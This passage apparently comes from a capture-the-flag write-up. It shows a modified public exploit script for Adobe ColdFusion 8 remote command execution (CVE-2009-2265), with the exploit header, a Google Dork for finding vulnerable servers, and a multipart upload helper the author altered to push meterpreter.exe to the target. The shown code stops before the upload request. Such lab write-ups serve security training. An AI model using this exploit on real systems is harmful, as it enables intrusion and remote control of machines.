 #### File transfer

In order to transfer the file `meterpreter.exe`  I tried many techniques such as running an **SMB** server or using **PowerShell** but each time I failed. Then I modified the exploit script to post and upload `meterpreter.exe`:

```python
# Exploit Title: Adobe ColdFusion 8 - Remote Command Execution (RCE)
# Google Dork: intext:"adobe coldfusion 8"
# Date: 24/06/2021
# Exploit Author: Pergyz
# Vendor Homepage: https://www.adobe.com/sea/products/coldfusion-family.html
# Version: 8
# Tested on: Microsoft Windows Server 2008 R2 Standard
# CVE : CVE-2009-2265

#!/usr/bin/python3

from multiprocessing import Process
import io
import mimetypes
import os
import urllib.request
import uuid

class MultiPartForm:

    def __init__(self):
        self.files = []
        self.boundary = uuid.uuid4().hex.encode('utf-8')
        return

    def get_content_type(self):
        return 'multipart/form-data; boundary={}'.format(self.boundary.decode('utf-8'))

    def add_file(self, fieldname, filename, fileHandle, mimetype=None):
        body = fileHandle.read()

        if mimetype is None:
            mimetype = (mimetypes.guess_type(filename)[0] or 'application/octet-stream')

        self.files.append((fieldname, filename, mimetype, body))
        return

    @staticmethod
    def _attached_file(name, filename):
        return (f'Content-Disposition: form-data; name="{name}"; filename="{filename}"\r\n').encode('utf-8')

    @staticmethod
    def _content_type(ct):
        return 'Content-Type: {}\r\n'.format(ct).encode('utf-8')

    def __bytes__(self):
        buffer = io.BytesIO()
        boundary = b'--' + self.boundary + b'\r\n'

        for f_name, filename, f_content_type, body in self.files:
            buffer.write(boundary)
            buffer.write(self._attached_file(f_name, filename))
            buffer.write(self._content_type(f_content_type))
            buffer.write(b'\r\n')
            buffer.write(body)
            buffer.write(b'\r\n')
```
